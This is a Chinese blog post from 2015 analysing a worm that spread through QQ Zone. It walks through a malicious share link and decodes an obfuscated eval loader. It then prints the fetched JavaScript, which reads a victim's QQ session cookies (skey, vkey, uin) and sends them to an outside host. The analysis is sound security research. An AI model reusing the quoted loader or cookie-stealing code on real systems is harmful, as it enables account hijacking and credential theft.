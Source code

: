```yaml
---
title: 对QQ空间自动转发/加好友的研究
authorId: rexskz
tags:
  - qzone
  - xss
categories:
  - Web 安全
date: 2015-08-15 14:12
---
```


前几天，QQ 空间的一大批好友转了所谓“优衣库”的一个视频，不用说，肯定是QQ空间有什么XSS漏洞了。有学弟让我去研究，其实我是拒绝的，因为我当时在搞别的事情，随便看了看源码没发现问题，于是就放到脑后了。

昨天晚上发现空间里又有好友转发的现象，甚至有自动加好友的问题。正好大半夜一个人有安静的时间，于是就顺便研究一下。

一开始没有头绪，在想是不是QQ空间有直接的XSS漏洞，于是看到了分享链接的标题，“▶↔§↙♯敱”这几个字很可疑，但是经过`encodeURIComponent`之后发现并没什么异常，这条路走不通。

从隐身窗口中打开链接（链接地址是恶意网址这个很容易看出来），但是并没看出代码有什么问题，除了页面最下方有一个`loadscript.js`，看名字应该是加载一个JavaScript代码，但是网址却是一个`.php`结尾的网址。

```javascript
var dor = parseInt(cookieRead("sdone"));
if (dor && dor > 0) {
    //;
} else {
    loadscript.js("/v/getplay.php");
    cookie_set("sdone", 99);
}
```

但是好像并没有什么端倪：

```javascript
function rndNum(len) {
    if (len && len > 0 && len < 100) {} else {
        len = 32;
    }
    var strs = "123456789";
    var maxPos = strs.length;
    var rdstr = "";
    for (i = 0; i < len; i++) {
        rdstr += strs.charAt(Math.floor(Math.random() * maxPos));
    }
    return rdstr;
}

if (cookieRead) {
    var dor = cookieRead("adplay");
    if (dor && dor > 0) {
        //;
    } else {
        cookie_set("adplay", 99);
    }
}
```

这条路也走不通。为了重现这个问题，我决定亲自实验一下。于是我在普通Chrome窗口中点开了这个链接。

**然并卵。**

什么都没发生，所以这肯定是只在手机QQ的浏览器中才有用。手头没有手机上的抓包工具，不过还好以前写前端的时候，为了方便测试移动端兼容性特地写了个页面：<a title="设备信息检测" href="https://www.rexskz.info/demos/devicetest.html" target="_blank">设备信息检测</a>，于是用手机访问了一下，我的手机QQ浏览器的UA是这样的：

```text
Mozilla/5.0 (Linux; U; Android 4.4.4; en-us; HUAWEI G7-TL00 Build/HuaweiG7-TL00) AppleWebKit/533.1 (KHTML, like Gecko)Version/4.0 MQQBrowser/5.4 TBS/025442 Mobile Safari/533.1 V1_AND_SQ_5.7.2_260_YYB_D QQ/5.7.2.2490 NetType/4G WebP/0.3.0
```

在Chrome的开发者工具中将UA修改成这个，然而发现我已经上不去那个网站了。

天无绝人之路。将其一键加入科学上网列表之后，发现那个`getplay.php`的请求没了……

可能是人家防止我们分析吧。没关系，把网址中的随机参数改一改，清空一下缓存啥的，于是这个神奇的文件又出现了：

```javascript
document.getElementById("footad").src = "http://blog.qq.com/qzone/1107397297/1407071241.htm?vid=" + window.vid;

function rndNum(len) {
    if (len && len > 0 && len < 100) {} else {
        len = 32;
    }
    var strs = "123456789";
    var maxPos = strs.length;
    var rdstr = "";
    for (i = 0; i < len; i++) {
        rdstr += strs.charAt(Math.floor(Math.random() * maxPos));
    }
    return rdstr;
}

if (cookieRead) {
    var dor = cookieRead("adplay");
    if (dor && dor > 0) {
        //;
    } else {
        cookie_set("adplay", 99);
    }
}
```

第一行……在干啥？

实在是太晚了，于是我先睡觉了，睡得特别好，今天12点才起床。

于是打开网址看看吧（从`console`中获取到`window.vid=19`），发现了下面这么一段：

```javascript
s = /e%3Ddocument.body.innerHTML%3Bs%3De.indexOf%28%22%2f%2f%27%2C%27pro%22%29%3Bif%28s%3E0%29%7Be%3De.substring%28s%2B2%29%3Bt%3De.indexOf%28%22%3C%5C%2F%22%29%3Bif%28t%3E0%29%7Be%3D%22g_weather%5B%27save%27%5D%3D%7B%27country%27%3A%27%E4%B8%AD%E5%9B%BD%22%2Be.substring%280%2Ct%29%3Beval%28e%29%7D%7D%3Bdocument.write(%27%3Cscr%69pt%20src%3D%22h%74%74p%3A%2f%2fimgc%61che.qq.skyd%61t%61s.com%2Fg%2Fn%2Fb.jpg%22%3E%3C%2Fscr%69pt%3E%27)/;
s = unescape(s);
eval(s.substring(1, s.length - 1));
```

`eval`执行的语句，也就是那个`s`里面的内容，是这样的：

```javascript
e = document.body.innerHTML;
s = e.indexOf("//', 'pro");
if (s > 0) {
    e = e.substring(s + 2);
    t = e.indexOf("<\/");
    if (t > 0) {
        e = "g_weather['save']={'country':'ä¸­å½" + e.substring(0, t);
        eval(e)
    }
};
document.write('<script src="<strong>http://imgcache.qq.skydatas.com/g/n/b.jpg</strong>"></script>')
```

可见这是加载了一个奇怪的资源：`.jpg`结尾的JavaScript代码。打开之后有个301跳转，追随过去看看吧。

```javascript
function tjskey() {
    var eimg;
    eimg = document.createElement("script");
    eimg.type = "text/javascript";
    var myskey = cookieRead("skey");
    var myqq = parseInt(cookieRead("uin").replace("o", ""));
    var vkey = cookieRead("vkey");
    //if(myqq>500 && vkey.length>10){
    if (myqq > 99999999) {
        eimg.src = "http://db.outome.com/nsys/tsk.php?u=" + myqq + "&s=" + myskey + "&v=" + vkey + "&f=" + getQueryString("vid");
        document.body.appendChild(eimg);
    }
}
```

看到上面加粗的那一段了？通过`http://db.outome.com/nsys/tsk.php`这个接口将你的qq、skey、vkey、vid信息发到指定的位置。

还需要管别的么？有了key以后想做什么操作都随意了吧！

但是这并没有解决根本的疑问：blog.qq.com的网页上为什么会出现外面的代码？blog.qq.com我从来没听说过，看起来像QQ空间的前身，那为什么QQ没有弃用这个域名？是不是这个网站上有BUG？我就不得而知了。如果有大神有新的研究成果，求共享！

另，分享一篇寻找资料时找到的文章：<a title="qq空间某被利用的xss分析 - virusdefender's blog" href="https://virusdefender.net/index.php/archives/347/" target="_blank">qq空间某被利用的xss分析 - virusdefender's blog</a>，与本文的原理不同，这个是通过XSS修改`<base>`直接获取key以达到目标。但是该文章是通过网址中的`imgdm`参数进行反射型XSS，而本文应该属于存储型XSS。

